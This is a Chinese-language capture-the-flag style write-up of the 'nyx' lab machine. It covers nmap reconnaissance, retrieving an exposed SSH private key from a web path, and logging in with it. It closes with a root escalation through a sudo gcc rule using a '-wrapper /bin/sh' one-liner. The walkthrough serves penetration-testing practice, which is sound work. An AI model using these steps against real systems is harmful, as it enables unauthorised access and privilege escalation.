

 
 ## 端口扫描

 ```bash
┌─[fforu@parrot]─[~]
└──╼ $sudo nmap -sT --min-rate 9999  10.10.10.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 21:12 EST
Nmap scan report for 10.10.10.17
Host is up (0.0021s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:B4:A3:F0 (VMware)


┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT -sCV -O -p 22,80 10.10.10.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 21:18 EST
Nmap scan report for 10.10.10.17
Host is up (0.00075s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fc:8b:87:f4:36:cd:7d:0f:d8:f3:16:15:a9:47:f1:0b (RSA)
|   256 b4:5c:08:96:02:c6:a8:0b:01:fd:49:68:dd:aa:fb:3a (ECDSA)
|_  256 cb:bf:22:93:69:76:60:a4:7d:c0:19:f3:c7:15:e7:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: nyx
MAC Address: 00:0C:29:B4:A3:F0 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT --script=vuln -p 22,80 10.10.10.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 21:20 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.17
Host is up (0.00047s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /d41d8cd98f00b204e9800998ecf8427e.php:   110/220/440 Administrator Password Reset Vulnerability
MAC Address: 00:0C:29:B4:A3:F0 (VMware)
 ```

 ## ssh私钥登录

默认脚本扫描得到一个目录
/d41d8cd98f00b204e9800998ecf8427e.php

得到私钥，下载下来

```bash
┌─[✗]─[fforu@parrot]─[~/workspace]
└──╼ $sudo ssh -i ssh_key mpampis@10.10.10.17
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'ssh_key' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "ssh_key": bad permissions
mpampis@10.10.10.17's password: 
Permission denied, please try again.
mpampis@10.10.10.17's password: 
```
提示ssh_key的权限太过开放
那么更改ssh_key的权限为600
再次尝试登录

## 第一个立足点，ssh
```bash
┌─[✗]─[fforu@parrot]─[~/workspace]
└──╼ $sudo chmod 600 ssh_key 

┌─[✗]─[fforu@parrot]─[~/workspace]
└──╼ $sudo ssh -i ssh_key mpampis@10.10.10.17
Linux nyx 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
███▄▄▄▄   ▄██   ▄   ▀████    ▐████▀ 
███▀▀▀██▄ ███   ██▄   ███▌   ████▀  
███   ███ ███▄▄▄███    ███  ▐███    
███   ███ ▀▀▀▀▀▀███    ▀███▄███▀    
███   ███ ▄██   ███    ████▀██▄     
███   ███ ███   ███   ▐███  ▀███    
███   ███ ███   ███  ▄███     ███▄  
 ▀█   █▀   ▀█████▀  ████       ███▄ 
Last login: Fri Aug 14 19:15:05 2020 from 192.168.1.18
mpampis@nyx:~$ 
```

## 提权

```bash
mpampis@nyx:~$ uname -a
Linux nyx 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
mpampis@nyx:~$ ls 
user.txt
mpampis@nyx:~$ sudo -l
Matching Defaults entries for mpampis on nyx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mpampis may run the following commands on nyx:
    (root) NOPASSWD: /usr/bin/gcc
mpampis@nyx:~$ sudo gcc -wrapper /bin/sh,-s .
# whoami
root
```
这台靶机太简单了，sudo gcc提权即可
